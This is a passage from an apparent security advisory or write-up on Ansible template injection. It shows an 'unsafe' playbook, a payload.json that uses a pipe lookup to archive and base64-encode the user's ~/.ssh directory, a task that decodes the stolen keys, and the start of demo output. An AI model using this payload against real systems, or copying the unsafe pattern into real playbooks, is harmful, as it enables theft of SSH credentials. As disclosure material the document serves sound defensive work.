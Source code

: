     # Unsafe Example
    - name: Add an element to the payload file unsafely
      set_fact:
        combined_payloads_unsafe: >
          {{
            payload['content']
            | b64decode
            | from_json
            | combine({'key':'value'})
          }}

    - name: Write the unsafe config
      copy:
        content: "{{ combined_payloads_unsafe | to_json }}"
        dest: /tmp/output_unsafe.json

    # Display the output of the attack
    - name: Install the package "jq"
      apt:
        name: jq

    - name: Read the result of the payload
      shell: jq .ssh_keys /tmp/output_unsafe.json -r | base64 -d | tar -xzO
      register: payload_results

    - name: Output the payload results
      debug:
        msg: "{{payload_results.stdout}}"
{{< / highlight >}}

## payload.json

```json
{
    "ssh_keys":"{{ lookup(\"pipe\", \"tar -czf - $HOME/.ssh/ 2>/dev/null | base64 -w0 \") }}"
}
```
## Demo

```bash
$ ansible-playbook poc.yml

PLAY [Template injection example] **********************************************

TASK [Gathering Facts] *********************************************************
ok: [localhost]

TASK [Prepare the host by setting it up with the payload] **********************
ok: [localhost]

TASK [Read the payload from the remote server] *********************************
ok: [localhost]

TASK [Add an element to the payload file safely] *******************************
ok: [localhost]

TASK [Write the safe config] ***************************************************
changed: [localhost]

TASK [Combine and write the config safely] *************************************
```